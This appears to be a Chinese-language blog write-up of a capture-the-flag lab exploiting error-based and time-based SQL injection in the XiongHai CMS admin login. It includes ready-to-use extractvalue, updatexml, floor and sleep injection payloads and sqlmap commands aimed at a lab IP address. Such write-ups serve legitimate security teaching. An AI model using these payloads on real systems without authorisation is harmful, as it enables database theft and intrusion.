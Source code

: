 ```yaml
---
title: "熊海 CMS 后台登录的 SQL 注入"
date: 2024-02-12
description: "管理员登录页面可以在不登录的情况下对 POST 的表单做 SQL 注入，利用语法报错泄露数据库信息"
tags: ["SQL注入","后端漏洞"]
featured_image: ""
# images is optional, but needed for showing Twitter Card
images: []
categories: "sec"
comment: false
draft: false
---
```


这是一个基于熊海 cms 的靶场，并且提示我们存在 post 注入。打开 burp 抓个包，用 burp 目标里面的目录扫描找到了后台 /admin，打开得到管理员登录界面。

有必要说的是，这个登录页面是个弱口令，但是急于用弱口令登录进去就会错过外面这个登录页面的漏洞。

最终我们发现这个登录页面存在 sql 注入，可以在不登录的情况下借助外带的语法报错拿到数据库信息。

## 语法回顾

我们使用 extractvalue() 和 concat() 这两个函数引起报错。

extractvalue(xml_frag,xpath_expr) 是 mysql 的 xml 函数，有两个字符串参数，我们写 extractvalue(1,concat(...)) 就可以了。concat() 就是拼接字符串，我们写一个 0x5c 或者 0x7e 就会引起路径错误，payload 如下。

    1' and extractvalue(1,concat(
        0x5c,
        0x7e,
        (select value from flag_db.flag limit 0,1),
        0x7e
        )) and '1'='1

同样是 xml 函数的 updatexml() 可以替代 extractvalue()，payload 如下。

    1' and updatexml(1,concat(
        0x5c,
        0x7e,
        (select value from flag_db.flag limit 0,1)，
        0x7e
    ),1) and '1'='1

在这两个 xml 函数用不了的时候用 floor() 报错也可以，但是写起来会比较麻烦，payload 如下。

    1' and (select 1 from (select count(*),concat(
            (select value from flag_db.flag limit 0,1),
            0x2b,
            floor(rand(0)*2)
        )x from information_schema.tables 
        group by x)a) 
    and '1'='1

上述 payload 的成功效果如下图所示。

![sqli4](/images/sqli1/sqli4-14.png)

![sqli4](/images/sqli1/sqli4-13.png)

![sqli4](/images/sqli1/sqli4-12.png)

## 手工注入

登录页面如下。首先我们输入单引号发现报错，这说明 user 可能存在 post 注入。

![sqli4](/images/sqli1/sqli4-6.png)

![sqli4](/images/sqli1/sqli4-7.png)

考虑到有报错页面但是没有回显点，我们用 extractvalue() 进行注入，旨在引起语法错误。构造如下 payload。

首先爆数据库名称。

    1' and extractvalue(1,concat(0x5c,0x2d2d2d2d2d2d2d,(
        select schema_name from information_schema.schemata 
            limit 0,1
    ),0x2d2d2d2d2d2d2d)) and '1'='1

![sqli4](/images/sqli1/sqli4-9.png)

令 limit 0,1 中的 0 遍历 0~4 可以爆出所有数据库名称后，打开 flag_db 查询表名。

    1' and extractvalue(1,concat(0x5c,0x2d2d2d2d2d2d2d,(
        select table_name from information_schema.tables 
            where table_schema='flag_db'
    ),0x2d2d2d2d2d2d2d)) and '1'='1

![sqli4](/images/sqli1/sqli4-8.png)

然后查询字段。

    1' and extractvalue(1,concat(0x5c,0x2d2d2d2d2d2d2d,(
        select column_name from information_schema.columns 
            where table_schema='flag_db' and table_name='flag'
            limit 0,1
    ),0x2d2d2d2d2d2d2d)) and '1'='1

![sqli4](/images/sqli1/sqli4-10.png)

最终拿到 flag=ywaq{okjzxdHdsa}。

    1' and extractvalue(1,concat(0x5c,0x2d2d2d2d2d2d2d,(
        select value from flag_db.flag 
            limit 0,1
    ),0x2d2d2d2d2d2d2d)) and '1'='1

![sqli4](/images/sqli1/sqli4-11.png)

## 用 sqlmap 扫描

使用的 sqlmap 语句如下。--forms 是对登录框的表单进行扫描，如果这个 forms 指令行不通，可以考虑抓包到 txt 用 -r 扫描。

    sqlmap -u http://111.9.41.91:53008/admin/?r=index  --forms --batch --dbs

--dbs 的意思是列出所有数据库名称

    sqlmap -u http://111.9.41.91:53008/admin/?r=index  --forms --batch -D flag_db --dump

-D 是指定数据库，--dump 是以文件形式导出。

![sqli4](/images/sqli1/sqli4-0.png)

![sqli4](/images/sqli1/sqli4-1.png)

![sqli4](/images/sqli1/sqli4-2.png)

## 其他发现

这里 sqlmap 提示存在时间盲注。我们用子查询输入

    ' and (select qwe from (select(sleep(10)))qwe) -- qwe

可以看到延迟有效。

![sqli4](/images/sqli1/sqli4-5.png)

但是我们发现这里的 sleep 必须用上述语句提高优先级，如果只输入 `' and sleep(10) -- qwe` 则无效。